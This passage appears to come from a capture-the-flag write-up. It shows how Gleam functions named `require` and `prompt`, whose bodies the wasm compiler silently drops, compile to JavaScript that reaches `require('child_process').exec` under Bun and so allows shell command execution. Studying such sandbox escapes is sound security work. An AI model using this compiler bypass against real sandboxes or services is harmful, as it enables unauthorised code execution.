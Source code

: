 ### Execution of disallowed function

The next step is to find a function in `bun`'s [globals](https://bun.sh/docs/api/globals) that we can call to execute some shell commands. 

A quite obvious one is `require` which lets us import arbitrary modules.

A common javascript payload for executing shell commands is to use:
```js
require("child_process").exec(cmd, callback)
```
This executes a shell command stored in `cmd`, and calls the function with the command's `error` `stdout` and `stderr`. 

Now we have to find some way to trick the compiler into thinking that the output of `require("child_process")` has an `exec` attribute.

First, we need to make the compiler **think** that the return value of `require` is a type that has an attribute `exec`. The following achieves this:

```rs
pub type Mod {
  Mod(exec: Nil)
}
pub fn require(a: String) -> Mod {
  let a = <<0:16-native>>
  Mod(Nil)
}
fn prompt(a: String) -> String {
  let a = <<0:16-native>>
  "a"
}
pub fn main() {
  let mod = require("child_process").exec
}
```
which compiles to:
```js
import { CustomType as $CustomType, toBitArray } from "./gleam.mjs";

export class Mod extends $CustomType {
  constructor(exec) {
    super();
    this.exec = exec;
  }
}

export function main() {
  let mod = require("child_process").exec;
  return mod;
}
```

We can see the `prompt` and `require` functions are deleted because the wasm compiler sets the mode for unsupported features to ignore instead of error as explained above.
